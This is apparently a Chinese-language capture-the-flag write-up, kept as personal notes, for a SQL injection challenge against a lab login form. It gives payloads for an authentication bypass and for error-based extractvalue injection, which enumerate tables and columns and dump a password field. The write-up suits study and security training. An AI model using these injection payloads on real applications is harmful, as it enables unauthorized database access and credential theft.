 ![[Pasted image 20221106102433.png]]
![[Pasted image 20221106102446.png]]
```sql
?username=admin&password=1' or 1=1 or '1
```
![[Pasted image 20221106102957.png]]
这里引入了一个新的概念：**报错注入**
![[Pasted image 20221106103349.png]]
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(database()))))#
```
![[Pasted image 20221106104824.png]]
爆表
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))#
```
![[Pasted image 20221106105754.png]]
爆字段
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))#
```
![[Pasted image 20221106110012.png]]
成功近在咫尺
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(password)from(geek.H4rDsq1))))#
```
![[Pasted image 20221106110239.png]]
貌似是错误信息限制了长度
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(right(password,30))from(geek.H4rDsq1))))#
```
![[Pasted image 20221106110613.png]]
#Web #SQL注入 #报错注入 